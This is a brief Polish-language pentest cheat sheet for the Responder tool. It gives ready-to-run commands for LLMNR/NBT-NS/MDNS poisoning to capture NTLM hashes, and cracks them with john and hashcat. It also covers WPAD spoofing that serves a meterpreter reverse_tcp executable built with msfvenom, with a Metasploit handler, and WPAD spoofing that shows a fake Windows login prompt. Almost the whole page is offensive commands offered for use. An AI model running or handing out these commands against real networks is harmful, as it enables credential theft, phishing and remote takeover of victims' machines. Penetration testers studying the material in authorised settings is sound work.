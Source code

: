 ## RESPONDER
### Intro
Responder an LLMNR, NBT-NS and MDNS poisoner
### Preq
### Config
/usr/share/responder/Responder.conf
### Uses
Zatruwanie i zbieranie hashy NTLM  
``responder -I eth0``  
*(john hash1.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=netntlmv2)*  
*(hashcat -m 5600 -a 0 hash1.txt /usr/share/wordlists/rockyou.txt --force --potfile-disable)*
#### Podkladanie WPAD - fake www + malware
``responder -I eth0 -wFfbv``  
*Serve-Html = on*  
*Serve-Exe = on*  
##### Malware example  
``msfvenom -p windows/x64/meterpreter/reverse_tcp lhost= $srcIP lport=$lPort -f exe > payload.exe``  
`` msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST $srcIP; set LPORT $lPort; run; exit -y;"``  
or
``use exploit/multi/handler``  
``set lhost _IP_``  
``set lport 4444``  
``set payload windows/x64/meterpreter/reverse_tcp``  
#### Podkladanie WPAD - fakowe windowsowe okno logowania do strony w przegladarce
``responder -I eth0 -r On -w On -wFb``  
*Serve-Html = off*  
*Serve-Exe = off*

